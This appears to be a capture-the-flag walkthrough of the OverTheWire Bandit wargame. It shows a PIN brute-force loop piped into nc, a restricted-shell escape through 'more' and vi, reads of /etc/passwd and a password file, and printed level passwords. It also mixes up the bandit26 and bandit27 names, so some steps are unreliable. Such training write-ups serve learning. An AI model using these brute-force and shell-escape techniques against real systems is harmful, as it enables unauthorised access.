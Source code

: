 ```bash
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
PS: We can write the script in one command.
```bash
$ for i in {0..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i";  done | nc localhost 30002
```
### **Bandit 25**
```bash
$ ls
bandit26.sshkey
```
We have the private key needed to connect to the next level, but according to the instructions, the next level "bandit27" isn't using bash, so lets check what is it using.
```bash
$ cat /etc/passwd
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```
It is using `/usr/bin/showtext`, lets check its contents:
```bash
$ cat /usr/bin/showtext 
#!/bin/sh
export TERM=linux
exec more ~/text.txt
exit 0
```
From this we can see that if we try to ssh to bandit27, the command `more ~/text.txt` will run instead of the `bash` shell.
```bash
$ ssh bandit27@localhost -p 2220 -i bandit26.sshkey
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to localhost closed.
```
We see that the connection is immediatly closed.
So there is a clever trick here, since `more ~/text.txt` is running and full displaying everything, if we make the terminal window smaller, `more` will keep running since it only displays a portion, and if we click `v` we switch to `vi` mode that allows us to execute shell commands.
```bash
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
--More--(66%)
```
PRESS `v` to switch to `vi` mode
```
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
Type  :qa  and press <Enter> to exit Vim                     1,3         Top
```
Change the shell for vi and run it.
```bash
:set shell=/bin/bash
:shell
bandit26@bandit:~$ ls
bandit27-do  text.txt
```
Now we can the password for bandit26 (this host)
```bash
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
```
